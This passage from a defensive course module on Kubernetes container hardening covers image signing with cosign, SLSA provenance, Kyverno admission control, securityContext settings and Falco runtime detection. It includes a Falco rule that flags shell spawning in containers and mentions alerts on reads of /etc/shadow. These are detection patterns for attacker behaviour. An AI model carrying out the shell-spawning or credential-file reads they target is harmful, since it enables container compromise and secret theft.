Here is what the integrity controls look like wired into a real GitHub Actions pipeline. The key plumbing is `id-token: write`, which lets the job mint the OIDC token that Fulcio trusts — that single permission is what makes *keyless* signing possible.

```yaml
# .github/workflows/release.yml
permissions:
  contents: read
  id-token: write        # REQUIRED: lets the job mint an OIDC token for Fulcio
  packages: write        # push image to GHCR

jobs:
  build-sign-attest:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Build and push (capture the digest)
        id: build
        run: |
          IMAGE=ghcr.io/${{ github.repository }}/app
          docker build -t "$IMAGE:${{ github.sha }}" .
          docker push "$IMAGE:${{ github.sha }}"
          # Resolve the immutable digest — we sign the DIGEST, never a tag
          DIGEST=$(docker inspect --format='{{index .RepoDigests 0}}' "$IMAGE:${{ github.sha }}")
          echo "digest=$DIGEST" >> "$GITHUB_OUTPUT"

      - uses: sigstore/cosign-installer@v3

      - name: Keyless sign the digest
        run: cosign sign --yes "${{ steps.build.outputs.digest }}"
        # No key flag: cosign uses the workflow's OIDC identity via Fulcio,
        # and records the signature + cert in Rekor automatically.

      - name: Generate an SBOM and attach it as a signed attestation
        run: |
          syft "${{ steps.build.outputs.digest }}" -o spdx-json > sbom.spdx.json
          cosign attest --yes \
            --predicate sbom.spdx.json \
            --type spdxjson \
            "${{ steps.build.outputs.digest }}"
```

At deploy time — in the CD pipeline, a Makefile target, or (best) the admission controller — you *verify* before anything runs. Verification asserts the **identity** and the **issuer**, not just "a signature exists":

```bash
# Fails closed if the image wasn't signed by THIS repo's release workflow
$ cosign verify ghcr.io/me/app@sha256:9f2c... \
    --certificate-identity-regexp '^https://github.com/me/app/\.github/workflows/release\.yml@refs/.*' \
    --certificate-oidc-issuer https://token.actions.githubusercontent.com

# Verify the SBOM attestation came from the same trusted identity
$ cosign verify-attestation ghcr.io/me/app@sha256:9f2c... \
    --type spdxjson \
    --certificate-identity-regexp '^https://github.com/me/app/.*' \
    --certificate-oidc-issuer https://token.actions.githubusercontent.com
```

> [!IMPORTANT]
> Notice what `--certificate-identity-regexp` pins: not "someone signed this" but "*the release workflow in my repo, running from a trusted ref*, signed this." If an attacker steals push access to your registry and uploads a malicious image, they cannot produce a signature that matches your workflow's OIDC identity — Fulcio would only ever issue them a certificate bound to *their* identity, not yours. The verify gate is therefore the whole point; a signature nobody checks protects nothing.

### 3. Provenance (SLSA) and SBOM Attestations

Beyond "who signed," attach **provenance**: an [SLSA](https://slsa.dev) in-toto attestation stating *what source commit, what builder, and what steps* produced the image — plus the **SBOM** ([T15](./T15-dependency-and-supply-chain-security.md)) listing every component. These travel with the image and are verifiable, raising the bar from "trust me" to "here's the cryptographic receipt."

**SLSA** (Supply-chain Levels for Software Artifacts, pronounced "salsa") frames this as a ladder of maturity, which is useful for setting a realistic target rather than an unreachable ideal:

| SLSA level | What it asserts | Roughly how you get there |
|---|---|---|
| **L1** | Provenance *exists* — there's a machine-readable record of how the artifact was built | Emit a provenance document from your build, even if unsigned |
| **L2** | Provenance is **signed** and the build ran on a **hosted build service** | Sign provenance (e.g. cosign keyless) from CI rather than a laptop |
| **L3** | The build is **hardened and isolated** — non-falsifiable provenance, ephemeral and isolated build environment, no way for a build step to forge its own provenance | Use a build platform with provenance guarantees (GitHub's SLSA generator, Tekton Chains, Google Cloud Build) |

Most teams land at **L2 quickly** (sign provenance from CI) and treat **L3 as the goal for high-trust artifacts** (anything that runs in production or is distributed to others). The xz-utils backdoor above is precisely the class of attack that L3 isolation is designed to make detectable: a build step that tries to inject content the source doesn't justify shows up when the provenance is non-falsifiable. Tie it back to the analogy: provenance is the **itemized receipt** that comes with the notarized seal — not just "this is sealed by us," but "here is the exact recipe, ingredients, and kitchen that produced it," so any swapped ingredient is visible on the bill.

### 4. Enforce at the Door: Admission Control

Signing is theater unless you **verify on the way in**. A Kubernetes admission controller (**Kyverno**, **Sigstore policy-controller**, or **OPA Gatekeeper**) rejects any image that isn't signed by your identity and accompanied by valid provenance:



This is the cluster-level analogue of the zero-trust "verify every request" tenet — verify every *image*. In the building analogy, the admission controller is the **concierge at the lobby desk** who checks every delivery against a guest list before it goes up the elevator: an unsigned or wrong-identity image is a package with no return address and a forged label — it never reaches the floor.

#### A Kyverno Policy Sketch

Here is a concrete Kyverno `ClusterPolicy` that *only* admits images from your registry signed by your CI identity. Note the `validationFailureAction` field — that one line is the difference between a policy that *warns* and one that *blocks*, and it's the lever for a safe rollout.

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-signed-images
spec:
  validationFailureAction: Audit   # <-- start in Audit; flip to Enforce later
  background: false
  rules:
    - name: verify-ci-signature
      match:
        any:
          - resources:
              kinds: ["Pod"]
      verifyImages:
        - imageReferences:
            - "ghcr.io/me/app/*"          # only governs your own images
          attestors:
            - entries:
                - keyless:
                    issuer: "https://token.actions.githubusercontent.com"
                    subject: "https://github.com/me/app/.github/workflows/release.yml@refs/heads/main"
                    rekor:
                      url: "https://rekor.sigstore.dev"
          mutateDigest: true              # rewrite tag → digest so what's verified is what runs
          required: true
```

The Sigstore **policy-controller** expresses the same intent with a `ClusterImagePolicy`; **OPA Gatekeeper** can do it via constraint templates but is more general-purpose and verbose for this specific job. Pick Kyverno or policy-controller when the goal is "verify image signatures"; reach for Gatekeeper/OPA when you already run Rego policy broadly.

> [!NOTE]
> **In practice — rolling out admission control without breaking Friday's deploy, audit mode first.** The single most common way an admission policy causes an outage is going straight to `Enforce` and discovering, at the worst possible moment, that three legacy Deployments and a vendor's Helm chart use unsigned images. The safe rollout is staged, and it mirrors how you'd ship any breaking change behind a flag:
> 1. **Deploy in `Audit` (or `warn`) mode.** The policy *evaluates* every admission and records/annotates violations but admits everything. Nothing breaks; you get a report of exactly what *would* be rejected.
> 2. **Read the audit report for a week.** It is almost never empty. Expect to find third-party images (ingress controllers, monitoring agents, the cluster autoscaler) that you don't build and therefore can't sign. Decide per-image: sign it yourself by re-hosting, scope the policy to *only* your registries (as the `imageReferences` above does), or add a narrowly-scoped exception.
> 3. **Fix the violations** — sign the images you own, scope or exempt the ones you don't.
> 4. **Flip a non-critical namespace to `Enforce` first**, watch it for a day, then expand cluster-wide.
>
> Doing this in audit-first order turns "a policy that pages the whole team at 5pm" into "a policy nobody noticed shipping." The same staged pattern applies to *every* admission control you add (Pod Security Standards, capability restrictions): observe, then enforce.



## Runtime Hardening: The `securityContext`

Now assemble the controls from the mechanism section into the Pod spec. Each setting maps to a kernel primitive and blocks a specific step of the attack progression:

```yaml
apiVersion: v1
kind: Pod
spec:
  automountServiceAccountToken: false        # don't hand a compromised pod the API token
  securityContext:
    runAsNonRoot: true                        # refuse to start as UID 0
    runAsUser: 1001
    seccompProfile: { type: RuntimeDefault }  # enable the default syscall filter
  containers:
    - name: app
      image: cgr.dev/me/app@sha256:9f2c...     # digest-pinned, signed
      securityContext:
        allowPrivilegeEscalation: false        # no-new-privileges: no setuid escalation
        readOnlyRootFilesystem: true           # can't write a webshell (cf. Spring4Shell!)
        privileged: false
        capabilities:
          drop: ["ALL"]                         # start from zero capabilities
          # add: ["NET_BIND_SERVICE"]           # only if binding a port < 1024
      resources:
        limits: { memory: "1Gi", cpu: "1000m" } # cgroup caps: no node-starving DoS
      volumeMounts:
        - { name: tmp, mountPath: /tmp }        # writable scratch where genuinely needed
  volumes:
    - name: tmp
      emptyDir: {}
```



> [!IMPORTANT]
> `readOnlyRootFilesystem: true` is the control that *directly* defeats the Spring4Shell webshell from [T17](./T17-jvm-specific-cves-log4shell-spring4shell.md): the exploit's whole goal is to *write* a `.jsp` into the web root. Deny the write and the RCE has nowhere to land. This is defense-in-depth paying off — the app was vulnerable, but the platform contained it.

> [!NOTE]
> **War story — read-only filesystem turns Spring4Shell into a non-event.** Recall the Spring4Shell mechanics from [T17](./T17-jvm-specific-cves-log4shell-spring4shell.md): the exploit abuses class-loader data binding to make Tomcat *write an attacker-controlled `.jsp` file into the webapp directory*, then the attacker browses to that JSP to get a webshell — a persistent, interactive foothold. Every step after "achieve the binding" depends on one thing: the ability to **write a file to disk in the web root**. A team running an admittedly-vulnerable Spring version survived the public exploit wave untouched, and the post-incident review found exactly why: their base Deployment template set `readOnlyRootFilesystem: true`, with a single narrow `emptyDir` mounted at `/tmp`. The exploit's write to the web root returned `EROFS`; no `.jsp` ever landed; the second-stage URL the attacker tried 404'd. The vulnerable code path *executed* — this was not prevention — but the webshell had nowhere to be born. The same control would have blunted countless "drop a file then call it" exploits, because so many web RCEs funnel through "write something executable to a path the server will serve." Make the root filesystem read-only and you close that funnel for *all* of them at once, named CVE or not. This is the clearest single illustration in the whole topic of containment beating patching.

### A Fuller, Annotated Production Spec

The Pod above is the teaching minimum. A production Deployment carries a few more belts-and-braces that are worth seeing in one place — pod-level vs container-level `securityContext` split, the writable scratch the JVM genuinely needs, a `tmpfs`-backed `emptyDir` so scratch never touches disk, and probes/limits that keep the cgroup story honest:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: orders-api
spec:
  replicas: 3
  template:
    spec:
      automountServiceAccountToken: false      # no K8s API token in the pod at all
      securityContext:                          # pod-level: applies to all containers
        runAsNonRoot: true                      # kubelet refuses to start a UID-0 container
        runAsUser: 1001
        runAsGroup: 1001
        fsGroup: 1001                           # group-owns mounted volumes for the non-root user
        seccompProfile:
          type: RuntimeDefault                  # opt into the default syscall allow-list
      containers:
        - name: app
          image: cgr.dev/me/orders-api@sha256:9f2c...  # Wolfi base, digest-pinned, cosign-signed
          ports:
            - containerPort: 8080               # >1024, so NO CAP_NET_BIND_SERVICE needed
          securityContext:                      # container-level: the per-container hardening
            allowPrivilegeEscalation: false     # sets no_new_privs: blocks setuid/file-cap escalation
            readOnlyRootFilesystem: true        # the Spring4Shell killer
            privileged: false                   # explicit, even though it's the default
            capabilities:
              drop: ["ALL"]                     # hand the tenant zero keys from the split master key
          resources:
            requests: { memory: "768Mi", cpu: "250m" }
            limits:   { memory: "1Gi",   cpu: "1000m" }   # cgroup caps: no node-starving DoS / fork bomb
          env:
            # JVM reads cgroup limits (C10/T02): size the heap as a % of the container memory limit
            - name: JAVA_TOOL_OPTIONS
              value: "-XX:MaxRAMPercentage=70 -XX:+ExitOnOutOfMemoryError"
          livenessProbe:
            httpGet: { path: /actuator/health/liveness, port: 8080 }
          readinessProbe:
            httpGet: { path: /actuator/health/readiness, port: 8080 }
          volumeMounts:
            - { name: tmp,        mountPath: /tmp }                 # JVM/temp-file scratch
            - { name: heap-dumps, mountPath: /var/log/heap-dumps }  # OOM dumps need a writable path
      volumes:
        - name: tmp
          emptyDir:
            medium: Memory          # tmpfs: scratch lives in RAM, never persists to the node's disk
            sizeLimit: 256Mi
        - name: heap-dumps
          emptyDir:
            sizeLimit: 1Gi
```

Two practical notes that trip teams up the first time they harden a real Spring app:

- **The JVM and many libraries *need* a writable `/tmp`.** Things like font caches, `Files.createTempFile`, some Netty/SSL operations, and Spring Boot's exploded-resource handling write to a temp directory. `readOnlyRootFilesystem: true` will break these with cryptic `IOException`s unless you mount a narrow writable scratch. Mount the *smallest* writable surface that makes the app work — usually just `/tmp` — not a broad writable mount that undoes the control.
- **`fsGroup` is what lets a non-root UID actually read its mounted volumes.** Drop `runAsNonRoot: true` without setting `fsGroup`/ownership correctly and you'll hit permission-denied on a mounted ConfigMap or PVC. The fix is ownership, never "just run as root."

## Network and Secrets at Runtime

Two more containment layers, tying back to earlier topics:

- **Egress restriction (NetworkPolicy).** Log4Shell's first move is an *outbound* LDAP/HTTP connection ([T17](./T17-jvm-specific-cves-log4shell-spring4shell.md)). A default-deny egress `NetworkPolicy` on the app namespace breaks that chain even on vulnerable code, and blocks lateral movement to other pods.
- **Secrets as mounted files, not env, and not in the image.** Environment variables leak into logs, crash dumps, and `/proc/<pid>/environ`; baked-in secrets live forever in image layers. Mount short-lived secrets from a secrets manager ([T12](./T12-secrets-management.md)) and scope the pod's service account with least-privilege RBAC.

## Detecting a Compromise at Runtime

Hardening reduces the blast radius; detection tells you it happened. With an immutable, read-only, shell-less container, *normal behavior is extremely predictable* — which makes anomalies loud:

- **Falco** (CNCF, eBPF/kernel-based) watches syscalls and alerts on tell-tale events: a shell spawned in a container, an unexpected `exec`, a write to a read-only path, an outbound connection to a new IP, a process reading `/etc/shadow`.
- **A process spawning `/bin/sh`, or writing a file, in a container that should never do either** is almost always an incident — exactly the signal T17's `Runtime.exec` would trip.

Think of Falco as the **building's alarm system**, complementary to the locks. The locks (hardening) try to *prevent* the break-in; the alarm *notices* the moment a window breaks and pages the guard. The two reinforce each other in a way that's easy to undervalue: a hardened, immutable, shell-less container has *extraordinarily* predictable behaviour — it execs the JVM at startup and essentially nothing else for its whole life. That predictability is exactly what makes anomaly detection trustworthy. In a chatty `debian` container where cron jobs, package updates, and shell scripts run all day, "a shell spawned" is noise; in a distroless container that has no shell and never spawns one, "a shell spawned" is a five-alarm fire with almost no false positives. **Hardening doesn't just reduce blast radius — it sharpens detection**, because it shrinks "normal" to a tiny, well-defined set of behaviours.

A representative Falco rule for the crypto-miner war story from the start of this topic:

```yaml
- rule: Unexpected shell in hardened container
  desc: A shell was spawned in a container that should never run one
  condition: >
    spawned_process and container
    and proc.name in (sh, bash, dash, ash, zsh)
    and not container.image.repository in (allowed_debug_images)
  output: >
    Shell spawned in container
    (user=%user.name container=%container.name image=%container.image.repository
     proc=%proc.cmdline parent=%proc.pname)
  priority: CRITICAL
  tags: [container, shell, mitre_execution]
```

> [!NOTE]
> **In practice — route the alert to a human, fast.** Detection only contains an incident if someone acts on it. The crypto-miner story ended well because the Falco `CRITICAL` paged the on-call within seconds, who killed the pod and rolled back. A Falco alert that lands in a dashboard nobody watches is the same as no alert. Wire `CRITICAL`-priority runtime alerts to the same pager that infrastructure outages use — a shell in a shell-less container deserves the same urgency as a node going down.

## When Containers Aren't Enough: Stronger Isolation

A container shares the host kernel, so a kernel-level escape is always *theoretically* possible. For hostile multi-tenant workloads (running untrusted code), use stronger sandboxes:

- **gVisor** (`runsc`) — a user-space kernel that intercepts and services syscalls, shrinking the host kernel's exposed surface.
- **Kata Containers** — each pod in a lightweight micro-VM with its *own* kernel, giving VM-grade isolation with container ergonomics.

> [!WARNING]
> Treat a standard container as **defense-in-depth, not a hard security boundary.** For ordinary first-party services the hardening above is right-sized; for running *untrusted* code, reach for gVisor/Kata or a separate node pool.

### When Do You Actually Need gVisor or Kata?

This is the most over-reached-for control in the topic, so be precise about the trigger. The dividing question is: **do you run code you did not write and do not trust, next to code or data you do trust, on a shared kernel?** The answer is almost always *no* for a normal product team — and *yes* in a handful of recognizable situations:

- **You genuinely need it (hostile multi-tenancy).** You run *customers'* arbitrary code: a serverless/Functions-as-a-Service platform, a CI runner that builds untrusted pull requests, a notebook/sandbox product, a "bring your own plugin" marketplace, or an AI agent that executes model-generated code. Here a single tenant *is* an attacker by assumption, the shared-kernel "thin wall" of a container is exactly the wrong trust model, and you reach for **gVisor** (`runsc`, a user-space kernel that services syscalls so the real host kernel is barely exposed — lower overhead, slight syscall-compatibility caveats) or **Kata Containers** (each pod in its own lightweight micro-VM with its *own* kernel — VM-grade isolation, higher overhead). In apartment terms, you've decided some tenants can't be trusted not to drill through the shared wall, so you give each of them a *detached unit with its own foundation*.
- **Standard hardening suffices (the common case).** You run *your own* first-party services — the orders API, the payments service, internal tools. Every tenant is trusted code your team wrote and reviewed; the threat is a *compromised* trusted service, not a *malicious* tenant. The `securityContext` hardening, minimal images, signing, NetworkPolicy, and Falco in this topic are right-sized, and the runtime overhead of gVisor/Kata buys you almost nothing against your actual threat model. Reaching for a micro-VM here is paying a real latency/throughput tax to defend against a tenant who is *you*.
- **The middle ground.** Strong regulatory isolation requirements (e.g. PCI workloads that must not share a kernel with non-PCI ones) are often better served by **separate node pools or separate clusters** than by gVisor/Kata — physical/scheduling separation is simpler to reason about and audit than a sandboxed runtime.

The rule of thumb: **gVisor/Kata is a multi-tenancy tool, not a hardening upgrade.** If you can't name the untrusted tenant, you don't need it — spend the effort on the controls earlier in this topic, which defend the threat you actually have.

> [!INTERVIEW]
> A staff favorite: *"An attacker gets RCE in your Spring pod via a library CVE. Walk me through everything that stops them from owning the cluster."* A strong answer is a layered chain: distroless ⇒ no shell to pivot; `readOnlyRootFilesystem` ⇒ no webshell/dropper write; `runAsNonRoot` + `drop ALL` caps + user namespace ⇒ no in-container escalation, container-root is host-nobody; `allowPrivilegeEscalation:false` + seccomp ⇒ no setuid/dangerous-syscall escape; default-deny `NetworkPolicy` ⇒ no stage-2 download or lateral movement; `automountServiceAccountToken:false` ⇒ no Kubernetes API token to steal; Falco ⇒ the shell-spawn attempt pages the on-call. The interviewer is checking whether you think in *containment*, not just *patching*.

## Common Pitfalls

> [!WARNING]
> **`privileged: true` or mounting `/var/run/docker.sock`.** Either is an instant host takeover on compromise. Almost never necessary; treat any manifest requesting them as a red flag.

> [!WARNING]
> **Running as root / no `runAsNonRoot`.** Container-root is one isolation bug away from host-root. Combine non-root *and* user namespaces.

> [!WARNING]
> **Signing without verifying.** Generating signatures but not enforcing them at admission is security theater. The control is the *verify* gate, not the signature.

> [!WARNING]
> **`:latest` / floating tags in production.** Non-reproducible and a supply-chain hole. Pin by digest.

> [!WARNING]
> **Over-broad capabilities (especially `CAP_SYS_ADMIN`).** Drop `ALL`, add back the minimum. `SYS_ADMIN` is effectively root.

> [!WARNING]
> **Writable root filesystem by default.** Set `readOnlyRootFilesystem: true` and mount narrow `emptyDir`s only where the app genuinely writes.

> [!WARNING]
> **Secrets in `ENV` or baked into image layers.** They leak into logs, dumps, and history. Mount from a secrets manager ([T12](./T12-secrets-management.md)).

> [!WARNING]
> **Never updating base images.** Even minimal bases accrue CVEs; rebuild and redeploy on a schedule (Wolfi's rolling rebuilds make this routine).

## Practice

1. **Find the attacker's toolkit.** Run a `debian`-based and a `distroless` image of the same app. In each, attempt `which sh curl wget apt`. Write down what an RCE inherits in each case and which T17 exploitation step fails in distroless.
2. **Harden a Pod.** Take a default Spring Boot Deployment and add the full `securityContext` above. Confirm the app still runs; if it fails on a read-only FS, identify exactly which path it writes and mount a narrow `emptyDir` for it.
3. **Prove the Spring4Shell mitigation.** Argue, control by control, why `readOnlyRootFilesystem: true` alone would have neutralized the Spring4Shell webshell from [T17](./T17-jvm-specific-cves-log4shell-spring4shell.md) even on a vulnerable Spring version.
4. **Sign and verify.** Use `cosign` to keyless-sign an image and then `cosign verify` it with the wrong `--certificate-identity` — confirm it fails. Explain the roles of Fulcio and Rekor.
5. **Admission gate.** Sketch a Kyverno (or policy-controller) policy that rejects any image not signed by your CI identity. What happens to an attacker who pushes a malicious image to your registry but can't sign as you?
6. **Break the egress chain.** Write a default-deny egress `NetworkPolicy` for an app namespace and explain which step of the Log4Shell chain it severs.
7. **Capability audit.** For a typical Spring app on port 8080, list which Linux capabilities it actually needs. (Hint: with a port > 1024, the answer is "none" — `drop: ["ALL"]`.)
8. **Replay the crypto-miner.** Walk through the crypto-miner war story from the threat-model section and, for each of the five controls that limited the damage (cgroup limit, read-only FS, egress deny, no SA token, Falco), state exactly *which step* of the miner's playbook it broke. Then describe what a *default* pod would have suffered instead.
9. **Choose a base, defend it.** For three workloads — (a) a brand-new internal tool maintained by a team that debugs via `kubectl exec`, (b) a customer-facing payments API under SOC 2 audit, (c) a GraalVM-native batch job — pick `slim`, `distroless`, or `Wolfi` and justify the choice using the decision ladder, including the operational cost you're accepting.
10. **Audit-first rollout.** You must enforce "only signed images" on a cluster that already runs an unsigned ingress controller and a vendor Helm chart. Write the staged rollout plan (audit → triage → scope/exempt → enforce) and name what you expect to find in the first week's audit report.
11. **Do you need gVisor?** For each of these, decide whether standard hardening suffices or you need gVisor/Kata, and say why in one sentence: (a) a Functions-as-a-Service platform running customer code; (b) your company's internal orders API; (c) a CI runner that builds untrusted external pull requests; (d) a PCI-scoped payment service that must not share a kernel with non-PCI workloads.
12. **The docker.sock trap.** A teammate's CI pod mounts `/var/run/docker.sock` to "build images in the pipeline." Explain the host-takeover path on compromise, and propose a daemonless replacement that removes the need for the socket entirely.
13. **xz-utils, applied.** Explain, control by control, which of this topic's supply-chain mechanisms (digest pinning, signing, SLSA provenance, Rekor, admission verification) would have made the xz-utils backdoor harder to weaponize at scale — and which would *not* have caught it, and why.

## Recap

You should now be able to:

- State the **container threat model**: a container is a process sharing the host kernel, and an RCE progresses toward in-container escalation → host escape → lateral movement → secret theft.
- Explain the **kernel isolation primitives** — namespaces (esp. *user* namespace), cgroups, capabilities, seccomp, and LSM (AppArmor/SELinux) — and trace how a syscall passes the seccomp → capability → LSM gauntlet.
- Explain real **escapes** (`--privileged`, `docker.sock`, `CAP_SYS_ADMIN`, runc CVE-2019-5736 / Leaky Vessels) as failures of that machinery, and why keeping defaults on plus non-privileged plus user namespaces prevents them.
- Make the **attack-surface argument** for **distroless** and **Wolfi/Chainguard** images (no shell ⇒ RCE pivots fail; glibc; near-zero CVEs; built-in SBOM/signature) and choose a base with eyes open about debuggability.
- Establish **image supply-chain integrity**: digest pinning, keyless **Sigstore/cosign** signing (Fulcio certs + Rekor transparency log), **SLSA** provenance and SBOM attestations, and **admission-control** enforcement that verifies signatures at the cluster door.
- Apply the **`securityContext` hardening set** (`runAsNonRoot`, `readOnlyRootFilesystem`, `allowPrivilegeEscalation:false`, `drop ALL` caps, `seccompProfile: RuntimeDefault`, no auto-mounted SA token, resource limits) and map each to the kernel mechanism and the attack it blocks — including how `readOnlyRootFilesystem` directly defeats the Spring4Shell webshell.
- Add **runtime containment**: default-deny egress NetworkPolicy, file-mounted short-lived secrets, least-privilege RBAC, and Falco/eBPF runtime detection — and know when to escalate to **gVisor/Kata** for hostile multi-tenant isolation.
- Carry the four **load-bearing analogies** that organize the whole topic: a container as an *apartment sharing one foundation* (the host kernel) rather than a detached house (a VM); capabilities as a *split master key* you hand out one tooth at a time; a distroless image as a *room swept clean of tools*; and signing as a *notarized, tamper-evident seal* recorded in a public ledger.
- Tell the **war stories** and what each teaches: a crypto-miner contained to ninety seconds of wasted CPU by stacked controls; a mounted `docker.sock` (or `--privileged`) escalating an app RCE to full cluster takeover via the host's root daemon; `readOnlyRootFilesystem: true` turning a live Spring4Shell exploit into a `404`; and the xz-utils backdoor as the supply-chain near-miss that motivates provenance and signing.
- Make a **base-image choice with a decision ladder** (`slim → distroless → Wolfi → native-on-static`), matching the rung to the team's operational maturity, and **scan regardless** with Trivy/Grype gated on fixable high/critical CVEs, not noise.
- Run the **supply-chain pipeline end to end**: a keyless `cosign sign` + `cosign attest` in CI using OIDC (`id-token: write`), `cosign verify` pinned to your workflow's `--certificate-identity`, **SLSA L1→L2→L3** as a maturity target, and a **Kyverno/policy-controller** policy rolled out **audit-mode-first** so it never breaks an existing deploy.
- Appreciate that **hardening sharpens detection**: an immutable, shell-less container shrinks "normal" so far that a single spawned shell is a near-false-positive-free `CRITICAL` — and that the alert only contains an incident if it pages a human fast.
- Apply the **gVisor/Kata trigger correctly**: it is a *multi-tenancy* tool for running untrusted third-party code, not a hardening upgrade for your own first-party services — if you can't name the untrusted tenant, the controls earlier in this topic are right-sized.

## Next

This is the last genuinely-new topic of **Phase 3 (Security Deep Dive)**. The other originally-planned Phase 3 items are already covered by existing C08 topics: supply-chain integrity in [T15](./T15-dependency-and-supply-chain-security.md), secrets management in [T12](./T12-secrets-management.md), and zero-trust/SPIFFE in [T16](./T16-security-architecture-and-zero-trust-intro.md). Together with [JVM-specific CVEs (T17)](./T17-jvm-specific-cves-log4shell-spring4shell.md) and [Modern auth (T18)](./T18-modern-auth-oauth21-fido2-webauthn-passkeys.md), C08 now spans the full arc from a single vulnerability to a cryptographically-verified, runtime-contained deployment. Phase 4 (Real-World Case Studies) is the next phase in the expansion plan.
